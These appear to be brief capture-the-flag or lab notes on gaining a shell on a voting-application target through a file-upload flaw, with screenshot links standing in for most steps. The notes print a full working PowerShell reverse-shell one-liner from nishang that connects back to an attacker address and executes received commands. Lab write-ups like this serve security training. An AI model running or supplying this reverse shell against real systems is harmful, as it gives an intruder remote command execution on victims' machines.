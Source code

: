 # Getting a Shell
* Add new Voter, upload a random image to get the metadata and send to burp
![[Pasted image 20211226123058.png]]


* Change filename and data
![[Pasted image 20211226123230.png]]



![[Pasted image 20211226124715.png]]


* Gives a redirect, see the link location of profile image to see where is saved our file
![[Pasted image 20211226124030.png]]


### RCE
![[Pasted image 20211226124631.png]]


### Using nishang to get a reverse shell

![[Pasted image 20211226125444.png]]


Content of nishang/eris.ps1
``` bash
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.21',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![[Pasted image 20211226125603.png]]
